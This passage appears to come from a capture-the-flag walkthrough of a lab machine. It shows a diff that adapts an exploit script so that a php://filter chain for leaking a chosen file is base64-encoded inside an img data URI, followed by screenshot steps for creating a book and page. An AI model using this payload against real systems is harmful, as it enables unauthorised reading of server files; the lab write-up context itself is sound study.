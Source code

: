 ```diff
+ import base64
- filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
+ php_filter = base64.b64encode(f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'.encode()).decode()
+ filter_chain = f"<img src='data:image/png;base64,{php_filter}'/>"
```

Next let's create a new book:

![](/assets/img/img_Checker/Checker-1740267546650.png)

Name it whatever we want:

![](/assets/img/img_Checker/Checker-1740267593608.png)

Create a new page:

![](/assets/img/img_Checker/Checker-1740267628376.png)

Name it whatever we want:
